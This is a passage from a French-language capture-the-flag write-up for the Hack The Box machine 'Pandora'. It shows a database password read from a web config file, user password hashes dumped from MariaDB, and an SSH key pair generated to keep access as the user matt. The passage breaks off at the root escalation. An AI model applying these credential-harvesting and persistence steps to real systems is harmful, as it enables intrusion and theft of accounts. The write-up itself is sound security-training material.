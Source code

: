 ### Pandora Database Creds
J'ai trouvé le mot de passe de la base de donnée mysql mais impossible de cracker les hachages. Sauf celui de daniel, qui correspond bien au même mot de passe qu'en SSH.
```bash
matt@pandora:~$ cat /var/www/pandora/pandora_console/include/config.php 
<?php
// File generated by centos kickstart
$config["dbtype"] = "mysql";		
$config["dbname"]="pandora";		
$config["dbuser"]="pandora";		
$config["dbpass"]="PandoraFMSSecurePass2021";
$config["dbhost"]="localhost";			
$config["homedir"]="/var/www/pandora/pandora_console";
$config["homeurl"]="/pandora_console";	
error_reporting(0); 
$ownDir = dirname(__FILE__) . '/';
include ($ownDir . "config_process.php");
?>

-------------------

MariaDB [pandora]> select email,password from tusuario;
+--------------------+----------------------------------+
| email              | password                         |
+--------------------+----------------------------------+
| admin@pandora.htb  | ad3f741b04bd5880fb32b54bc4f43d6a |
| daniel@pandora.htb | 76323c174bd49ffbbdedf678f6cc89a6 |
| matt@pandora.htb   | f655f807365b6dc602b31ab3d6d43acc |
+--------------------+----------------------------------+
3 rows in set (0.000 sec)
```

## matt -> root

### SSH session
Dans un premier temps, j'ai essayé d'executer "sudo -l", mais une erreur bizarre s'affiche :
```bash
matt@pandora:/home/matt/.ssh$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
J'ai donc décidé de générer une paire de clés et de me connecter à matt en utilisant **SSH** pour plus de stabilité. Cela va avoir son importance pour l'exploitation :
```bash
$  ssh-keygen -t rsa -b 4096 -f matt             
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in matt
Your public key has been saved in matt.pub
The key fingerprint is:
SHA256:BH80icivzuGhGoIvDyqROBTJ3Yos2GjweEF7u2FwJrI root@exegol-pentest
The key's randomart image is:
+---[RSA 4096]----+
|..+ .... .o.     |
|.+.o .oo....     |
|==*.=  .o .      |
|=B+B . ...       |
|Eo  +  .S        |
|*  . o+          |
|+o. .= o         |
|++ .. +          |
|oo+.             |
```